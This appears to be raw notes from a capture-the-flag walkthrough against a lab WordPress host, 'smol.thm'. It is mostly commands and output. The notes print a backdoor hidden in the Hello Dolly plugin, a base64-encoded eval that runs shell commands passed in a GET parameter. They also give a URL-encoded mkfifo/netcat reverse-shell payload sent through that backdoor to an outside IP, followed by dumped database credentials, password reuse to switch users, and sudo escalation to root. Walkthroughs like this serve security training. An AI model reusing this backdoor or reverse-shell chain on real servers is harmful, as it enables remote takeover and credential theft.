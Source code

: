 Login details
<img width="1607" height="792" alt="image" src="https://github.com/user-attachments/assets/a8e952f1-5b19-4b15-946d-d50b7ac7b43f" />

<img width="1619" height="691" alt="image" src="https://github.com/user-attachments/assets/a9e01e4b-df7b-4097-bbe5-5ffc71eae830" />
https://github.com/WordPress/hello-dolly
=== Hello Dolly ===
Contributors: matt, wordpressdotorg
Stable tag: 1.7.2
Tested up to: 6.1
Requires at least: 4.6

This is not just a plugin, it symbolizes the hope and enthusiasm of an entire generation summed up in two words sung most famously by Louis Armstrong.

== Description ==

This is not just a plugin, it symbolizes the hope and enthusiasm of an entire generation summed up in two words sung most famously by Louis Armstrong: Hello, Dolly. When activated you will randomly see a lyric from <cite>Hello, Dolly</cite> in the upper right of your admin screen on every page.

Thanks to Sanjib Ahmad for the artwork.
<img width="1546" height="763" alt="image" src="https://github.com/user-attachments/assets/0735570f-2e35-4c9e-bbb0-0a1fb3cb561c" />
eval(base64_decode('CiBpZiAoaXNzZXQoJF9HRVRbIlwxNDNcMTU1XHg2NCJdKSkgeyBzeXN0ZW0oJF9HRVRbIlwxNDNceDZkXDE0NCJdKTsgfSA='));

http://www.smol.thm/wp-admin/index.php?cmd=rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff|%2Fbin%2Fbash%20-i%202%3E%261|nc%2010.4.124.126%201234%20%3E%2Ftmp%2Ff

define( 'DB_NAME', 'wordpress' );

/** Database username */
define( 'DB_USER', 'wpuser' );

/** Database password */
define( 'DB_PASSWORD', 'kbLSF2Vop#lw3rjDZ629*Z%G' );

/** Database hostname */
define( 'DB_HOST', 'localhost' );


// ** Database settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define( 'DB_NAME', 'wordpress' );

/** Database username */
define( 'DB_USER', 'xavi' );

/** Database password */
define( 'DB_PASSWORD', 'P@ssw0rdxavi@' );

/** Database hostname */
define( 'DB_HOST', 'localhost' );

/** Database charset to use in creating database tables. */
define( 'DB_CHARSET', 'utf8' );

/** The database collate type. Don't change this if in doubt. */
define( 'DB_COLLATE', '' );

wordpress.old  wordpress.old.zip
gege@ip-10-10-3-249:~$ cd wordpress.old
gege@ip-10-10-3-249:~/wordpress.old$ ls
index.php        wp-admin              wp-content         wp-load.php      wp-signup.php
license.txt      wp-blog-header.php    wp-cron.php        wp-login.php     wp-trackback.php
readme.html      wp-comments-post.php  wp-includes        wp-mail.php      xmlrpc.php
wp-activate.php  wp-config.php         wp-links-opml.php  wp-settings.php
gege@ip-10-10-3-249:~/wordpress.old$ cat wp-config.php
<?php
/**
 * The base configuration for WordPress
 *
 * The wp-config.php creation script uses this file during the installation.
 * You don't have to use the web site, you can copy this file to "wp-config.php"
 * and fill in the values.
 *
 * This file contains the following configurations:
 *
 * * Database settings
 * * Secret keys
 * * Database table prefix
 * * ABSPATH
 *
 * @link https://wordpress.org/documentation/article/editing-wp-config-php/
 *
 * @package WordPress
 */

// ** Database settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define( 'DB_NAME', 'wordpress' );

/** Database username */
define( 'DB_USER', 'xavi' );

/** Database password */
define( 'DB_PASSWORD', 'P@ssw0rdxavi@' );

/** Database hostname */
define( 'DB_HOST', 'localhost' );

/** Database charset to use in creating database tables. */
define( 'DB_CHARSET', 'utf8' );

/** The database collate type. Don't change this if in doubt. */
define( 'DB_COLLATE', '' );

/**#@+
 * Authentication unique keys and salts.
 *
 * Change these to different unique phrases! You can generate these using
 * the {@link https://api.wordpress.org/secret-key/1.1/salt/ WordPress.org secret-key service}.
 *
 * You can change these at any point in time to invalidate all existing cookies.
 * This will force all users to have to log in again.
 *
 * @since 2.6.0
 */
define( 'AUTH_KEY',         'put your unique phrase here' );
define( 'SECURE_AUTH_KEY',  'put your unique phrase here' );
define( 'LOGGED_IN_KEY',    'put your unique phrase here' );
define( 'NONCE_KEY',        'put your unique phrase here' );
define( 'AUTH_SALT',        'put your unique phrase here' );
define( 'SECURE_AUTH_SALT', 'put your unique phrase here' );
define( 'LOGGED_IN_SALT',   'put your unique phrase here' );
define( 'NONCE_SALT',       'put your unique phrase here' );

/**#@-*/

/**
 * WordPress database table prefix.
 *
 * You can have multiple installations in one database if you give each
 * a unique prefix. Only numbers, letters, and underscores please!
 */
$table_prefix = 'wp_';

/**
 * For developers: WordPress debugging mode.
 *
 * Change this to true to enable the display of notices during development.
 * It is strongly recommended that plugin and theme developers use WP_DEBUG
 * in their development environments.
 *
 * For information on other constants that can be used for debugging,
 * visit the documentation.
 *
 * @link https://wordpress.org/documentation/article/debugging-in-wordpress/
 */
define( 'WP_DEBUG', true );

/* Add any custom values between this line and the "stop editing" line. */



/* That's all, stop editing! Happy publishing. */

/** Absolute path to the WordPress directory. */
if ( ! defined( 'ABSPATH' ) ) {
        define( 'ABSPATH', __DIR__ . '/' );
}

/** Sets up WordPress vars and included files. */
require_once ABSPATH . 'wp-settings.php';
gege@ip-10-10-3-249:~/wordpress.old$ su xavi
Password: 
xavi@ip-10-10-3-249:/home/gege/wordpress.old$ su root
Password: 
su: Authentication failure
xavi@ip-10-10-3-249:/home/gege/wordpress.old$ sudo -l
[sudo] password for xavi: 
Matching Defaults entries for xavi on ip-10-10-3-249:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User xavi may run the following commands on ip-10-10-3-249:
    (ALL : ALL) ALL
xavi@ip-10-10-3-249:/home/gege/wordpress.old$ sudo su
root@ip-10-10-3-249:/home/gege/wordpress.old$ ls
total 244K
drwxr-x---  5 gege gege     4.0K Aug 18 21:03 .
drwxr-x---  3 gege internal 4.0K Aug 18 20:53 ..
-rw-r--r--  1 gege gege      523 Aug 16  2023 .htaccess
-rw-r--r--  1 gege gege      405 Aug 16  2023 index.php
-rw-r--r--  1 gege gege      20K Aug 16  2023 license.txt
-rw-r--r--  1 gege gege     7.3K Aug 16  2023 readme.html
-rw-r--r--  1 gege gege     7.1K Aug 16  2023 wp-activate.php
drwxr-xr-x  9 gege gege     4.0K Aug 18 21:03 wp-admin
-rw-r--r--  1 gege gege      351 Aug 16  2023 wp-blog-header.php
-rw-r--r--  1 gege gege     2.3K Aug 16  2023 wp-comments-post.php
-rw-r--r--  1 gege gege     3.0K Aug 16  2023 wp-config.php
drwxr-xr-x  7 gege gege     4.0K Aug 18 21:03 wp-content
-rw-r--r--  1 gege gege     5.6K Aug 16  2023 wp-cron.php
drwxr-xr-x 27 gege gege      16K Aug 18 21:03 wp-includes
-rw-r--r--  1 gege gege     2.5K Aug 16  2023 wp-links-opml.php
-rw-r--r--  1 gege gege     3.9K Aug 16  2023 wp-load.php
-rw-r--r--  1 gege gege      49K Aug 16  2023 wp-login.php
-rw-r--r--  1 gege gege     8.4K Aug 16  2023 wp-mail.php
-rw-r--r--  1 gege gege      26K Aug 16  2023 wp-settings.php
-rw-r--r--  1 gege gege      34K Aug 16  2023 wp-signup.php
-rw-r--r--  1 gege gege     4.8K Aug 16  2023 wp-trackback.php
-rw-r--r--  1 gege gege     3.2K Aug 16  2023 xmlrpc.php
root@ip-10-10-3-249:/home/gege/wordpress.old$ cat /root/root.txt
bf89ea3ea0199235************
root@ip-10-10-3-249:/home/gege/wordpress.old$ 


